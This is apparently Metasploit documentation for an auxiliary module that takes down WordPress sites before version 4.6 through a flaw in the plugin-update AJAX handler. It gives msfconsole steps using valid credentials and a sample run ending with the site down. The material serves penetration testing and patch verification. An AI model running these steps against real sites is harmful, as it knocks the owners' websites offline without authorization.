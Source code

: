 ## Vulnerable Application

This module exploits a Cross-site request forgery (CSRF) vulnerability in the [wp_ajax_update_plugin](https://core.trac.wordpress.org/changeset/38168) 
function in wp-admin/includes/ajax-actions.php in Wordpress before 4.6. This allows remote authenticated users to cause a denial of 
service (with /dev/random read operations).

You can find the vulnerable application like [4.5.3](https://wordpress.org/wordpress-4.5.3.tar.gz) from the 
[official website](https://wordpress.org/download/release-archive/)

## Verification Steps

1. Start msfconsole
2. Do: ```use auxiliary/dos/http/wordpress_directory_traversal_dos.rb```
3. Do: ```set RHOST [IP]```
4. Do: ```set TARGETURI [WordPress path]```
5. Do: ```set USERNAME [Valid Username]```
6. Do: ```set PASSWORD [Valid Password]```
7. Do: ```exploit```
8. WordPress website should be down

## Scenarios

### Wordpress 4.5.3 on Linux Mint 17.3

```
msf auxiliary(wordpress_directory_traversal_dos) > exploit

[*] Checking if user "test" exists...
[+] Username "test" is valid
[*] Executing requests 1 - 5...
[+] Finished executing requests 1 - 5
[*] Executing requests 6 - 10...
[+] Finished executing requests 6 - 10
...
[*] Executing requests 191 - 195...
[+] Finished executing requests 191 - 195
[*] Executing requests 196 - 200...
[+] Finished executing requests 196 - 200
[+] SUCCESS: /wordpress appears to be down
[*] Auxiliary module execution completed
```
